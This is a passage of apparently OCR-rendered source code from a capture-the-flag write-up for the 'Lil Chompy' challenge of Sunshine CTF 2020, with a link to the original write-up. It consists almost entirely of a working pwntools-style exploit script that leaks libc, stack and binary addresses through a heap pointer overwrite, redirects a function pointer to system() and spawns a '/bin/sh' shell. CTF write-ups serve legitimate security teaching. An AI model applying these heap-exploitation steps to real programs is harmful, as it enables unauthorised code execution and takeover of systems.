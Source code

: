 ```python  
rename(1,p64(1)+p64(heap+offset+off2))  
view()  
p.readuntil('#2: ')  
leak = p.readuntil(' (')[:-2][:8]  
libc = u64(leak + '\x00'*(8-len(leak)))-0x101740  
print "libc", hex(libc)

#leak stack  
environ = libc+0x3c6f38  
rename(1,p64(1)+p64(environ))  
view()  
p.readuntil('#2: ')  
leak = p.readuntil(' (')[:-2][:8]  
stack = u64(leak + '\x00'*(8-len(leak)))  
print "stack", hex(stack)

#leak binary  
rename(1,p64(1)+p64(stack -0x100))  
view()  
p.readuntil('#2: ')  
leak = p.readuntil(' (')[:-2][:8]  
binary = (u64(leak + '\x00'*(8-len(leak)))&0xfffffffffffff000)-0x1000

system=libc+0x453a0  
fun = binary+0x4060

print "binary", hex(binary)

#get overwrite of function pointers  
add(1, p64(0xffff0)*6)  
rename(1,p64(1)+p64(fun-16))  
demolish(2)  
add(1,p64(binary)*6)  
add(1,p64(binary)*2+p64(system))

#get the first item to sh to get shell with system call  
rename(1,"/bin/sh\x00")

#submit the park for a shell

p.interactive()  
```

Original writeup
(https://github.com/kernelpoppers/ctf_writeups/tree/master/Sunshine_2020/Lil_Chompy).